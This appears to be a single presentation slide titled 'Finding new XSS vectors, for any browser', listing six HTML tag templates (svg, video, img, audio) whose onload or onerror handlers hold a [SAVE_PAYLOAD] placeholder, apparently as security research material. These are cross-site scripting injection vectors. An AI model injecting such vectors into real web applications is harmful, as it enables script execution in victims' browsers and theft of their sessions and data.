

# Finding new XSS vectors, for any browser
<svg src=Something onload=[SAVE_PAYLOAD] />
<svg value=Something onload=[SAVE_PAYLOAD] />
<svg href=Something onload=[SAVE_PAYLOAD] />
<video src=Something onerror=[SAVE_PAYLOAD] />
<img src=Something onerror=[SAVE_PAYLOAD] />
<audio src=Something onerror=[SAVE_PAYLOAD] />